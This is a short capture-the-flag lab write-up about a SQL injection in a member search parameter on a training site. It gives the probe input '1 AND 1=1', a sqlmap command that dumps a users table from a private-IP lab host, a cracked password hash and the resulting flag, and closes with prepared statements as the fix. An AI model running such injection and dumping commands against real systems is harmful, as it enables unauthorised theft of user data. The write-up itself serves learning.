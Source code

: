 # 02_inject_me_member

The GET parameter in the member search form is vulnerable.

## Method

Go to ?page=member
In the search field, search `1 AND 1=1`

## How to exploit
sqlmap -u "http://192.168.1.75/index.php?page=member&id=3&Submit=Submit#" --dump -T users

Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28         

5ff9d0165b4f92b14994e5c685cdce28
FortyTwo 
fortytwo 
10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5


## Solution

- Send form as POST request
- Add prepared statements to backend to prevent SQL injection

